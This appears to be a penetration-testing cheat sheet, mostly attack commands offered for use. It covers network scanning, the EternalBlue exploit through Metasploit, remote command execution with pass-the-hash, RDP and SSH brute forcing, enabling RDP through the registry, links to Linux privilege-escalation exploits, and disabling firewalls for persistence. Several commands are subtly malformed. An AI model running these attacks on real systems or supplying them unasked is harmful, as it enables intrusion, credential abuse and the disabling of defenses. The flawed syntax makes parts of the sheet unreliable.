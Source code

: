 # Host Discovery
## nmap  
``` sudo nmap -n -sn -PS22,80,445,3389 192.168.0.1-254 -oG ip_scan.txt ```  
``` grep Up ip_scan.txt | cut -d" " -f2 ```  
``` for i in {1..254}; do (ping -c 1 192.168.1.$i | grep "bytes from" &); done ```  

# Port Discovery  
## Rustscan   
``` rustscan -u 5000 -t 7000 -a 192.168.1.1 ```  
``` rustscan -u 5000 -t 7000 --script none -a 192.168.1.1 ```  
``` rustscan -u 5000 -t 7000 none -a 192.168.1.1 -- -Pn -sVC -OA host_1```  
## nmap  
``` sudo nmap -n -sU -sVC -p53,69,161,1900,5353 ```  
## bash  
``` for port in {1..100}; do time out 1 bash -c "echo > /dev/tcp/192.168.1.1/$port" && echo "port $port is open" || echo "port $port is closed"; done ```  

## Service/OS Discovery 
``` sudo nmap -n -sVC p445,3389, 192.168.1.1  ```  
``` sudo nmap -n -sVC -p22,80 p445,3389, 192.168.1.1  ```  

# Exploit MS17_010    
``` msfconsole ```   
``` search ms17_010 ```  
``` use exploit/windows/smb/ms17_010_eternalblue ```  
``` show options ```  
``` set rhosts 192.168.0.7 ```  
``` check ```  
``` exploit ```  

# Execute a Windows Command via SMB  
## psexec  
``` python3 psexec.py CORP\\Administrator@10.0.0.5 -hashes :NTLMHASH ```  
``` python3 psexec.py CORP\\Administrator@10.0.0.5 -no-pass 'whoami' ```  
## smbexec 
``` python3 smbexec.py [domain/]username[:password]@<target> ```
## winexe  
```winexe –U ‘Username%Password’ //<IP> cmd.exe  ```  
``` pth-winexe –U ‘Username%<LM_hash:NTLM_hash>’ //<IP> cmd.exe ```  

# Execute a Windows Command other than SMB  
## WMIexec  
``` python3 wmiexec.py CORP\\Administrator@10.0.0.5 ```  
``` python3 wmiexec.py CORP\\Administrator@10.0.0.5 -hashes :NTLMHASH ``` 

# RDP Brute Force  
## Cowbar  
```crowbar [-v] –b rdp  -s <IP/CIDR> –u user -c password ```  
```crowbar [-v] –b rdp  -s <IP/CIDR> –U User.txt -C Passwords.txt ```  
## hydra  
```hydra -l user -p password 192.168.1.1 rdp ```  
```hydra -L user.txt -P Passwords.txt 192.168.1.1 rdp ```  

# XfreeRDP  
## xfeerdp  
``` xfreerdp /size:90% /v:<rdp_IP> /u:<user> /p:<password> ```  
``` xfreerdp /size:90% /v:<rdp_IP> /u:<user> /pth:<ntlm_hash> ```  

## xfreerdp3  

# Windows Enable RDP  
``` reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f ```  

# Enumerate SSH Users  
``` use auxiliary/scanner/ssh/ssh_enumusers ```  
``` set user_file Wordlist/Username.txt ```  
``` set check_false true ```  

# SSH Brute Force  
## Hydra  
``` hydra -t 4 -l <username> -P <passwords.txt> ssh://<ssh_IP> ```  
``` hydra -t 4 -L <users.txt> -P <passwords.txt> ssh://<ssh_IP> ```  

# Linux Privilege Escalation  
## Dirty COW:  
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)  
https://www.exploit-db.com/exploits/40847  
## PwnKit  
https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c  
## Ubuntu 18.04 LXD:  
https://www.exploit-db.com/exploits/46978  
https://www.vulnhub.com/entry/ai-web-2,357/  

# Persistent  
## Windows
``` netsh firewall set opmode disable ```  
``` netsh advfirewall set allprofiles state off ```  

## Linux  
``` sudo iptables -S ```  
``` sudo iptables -P INPUT ACCEPT ```  
``` sudo iptables -P OUTPUT ACCEPT ```  
